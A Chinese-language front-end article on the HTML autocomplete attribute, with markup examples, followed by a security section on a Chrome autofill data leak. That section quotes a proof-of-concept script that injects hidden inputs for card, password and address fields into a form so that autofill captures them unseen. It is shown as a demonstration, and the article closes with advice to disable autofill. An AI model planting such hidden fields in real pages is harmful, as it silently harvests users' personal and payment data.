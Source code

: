 # AutoComplete | 自动填充

自动填充(Autofill )是个非常重要的特性，它能帮助用户节省很多填写表单的时间，Google 也曾调查得出过结论[users complete forms up to 30% faster](https://developers.google.com/web/updates/2015/06/checkout-faster-with-autofill?hl=en)。我们首先来讨论下自动填充的工作原理，以及如何构建跨浏览器的自动填充表单。

早年各个浏览器之间对于自动填充并没有统一的标准，后来 HTML5 标准中加入了对于`autocomplete`属性的支持，以协调浏览器对于表单域的识别。最初`autocomplete`属性仅支持`on`与`off`两种取值，默认情况下是会启动自动填充功能以方便浏览器会将用户提交过的表单值记录下来以便复用。后续 HTML 标准中允许加入更多的[标识值](https://html.spec.whatwg.org/multipage/forms.html#autofill)，这些标识值会更加精确地告诉浏览器应将哪些记录值对应到哪些表单。譬如我们经常需要在网页上填写地址信息，如果我们希望浏览器能够记录下常用地址信息并且自动补全，那么可以使用如下声明方式：

```html
<textarea
  name="shipping-address"
  autocomplete="shipping street-address"
></textarea>
<input
  type="text"
  name="shipping-city"
  autocomplete="shipping address-level2"
/>
<input
  type="text"
  name="shipping-state"
  autocomplete="shipping address-level1"
/>
<input
  type="text"
  name="shipping-country"
  autocomplete="shipping country-name"
/>
<input
  type="text"
  name="shipping-postal-code"
  autocomplete="shipping postal-code"
/>
```

其他常见的自动填充的使用场景还包括电话号码、邮箱地址、即时通信账户等，完整的自动填充标识声明规范为：

```
[section-](optional) [shipping|billing](optional) [home|work|mobile|fax|pager](optional) [autofill field name]
```

其中`[home|work|mobile|fax|pager]`仅被用于电话、邮箱等场景。而完整的应用场景譬如是填写收货地址的收件人电话时：

```
<label for="foo">Mobile phone for delivery</label>
<input type="text" name="foo" id="foo" autocomplete="section-red shipping mobile tel">
```

最后，我们来看下自动填充在笔者电脑上的现实效果:

## 安全威胁

自动填充是个非常方便地浏览器特性，不过该特性在 Chrome 上也会存在一定的信息泄露的风险。Chrome 最近才修复了某个久负盛名[漏洞](https://yoast.com/autocomplete-security/)。简单而言，黑客能够利用自动填充窃取你并不想提交给该网站的信息，就如下面这个动图：

Github 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 使用如下脚本演示了该漏洞：

```js
var autocompletes = [
  "name",
  "honorific-prefix",
  "given-name",
  "additional-name",
  "family-name",
  "honorific-suffix",
  "nickname",
  "username",
  "new-password",
  "current-password",
  "organization-title",
  "organization",
  "street-address",
  "address-line1",
  "address-line2",
  "address-line3",
  "address-level4",
  "address-level3",
  "address-level2",
  "address-level1",
  "country",
  "country-name",
  "postal-code",
  "cc-name",
  "cc-given-name",
  "cc-additional-name",
  "cc-family-name",
  "cc-exp",
  "cc-exp-month",
  "cc-exp-year",
  "cc-csc",
  "cc-type",
  "transaction-currency",
  "transaction-amount",
  "language",
  "bday",
  "bday-day",
  "bday-month",
  "bday-year",
  "sex",
  "url",
  "photo",
  "tel",
  "tel-country-code",
  "tel-national",
  "tel-area-code",
  "tel-local",
  "tel-local-prefix",
  "tel-local-suffix",
  "tel-extension",
  "impp",
];

emailField.addEventListener("focus", function () {
  var wrap = autocompletes.reduce(function (wrapper, field) {
    var input = document.createElement("input");

    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;

    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement("div"));

  // Hide the wrapper
  wrap.classList.add("hidden");
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener("focus", arguments.callee);
});
```

作者是建议大家关闭 Chrome 的自动填充功能，主要步骤为：

- 进入 Chrome 设置：`chrome://settings/autofill`
- 关闭当前模态窗口
- 反选自动填充选项
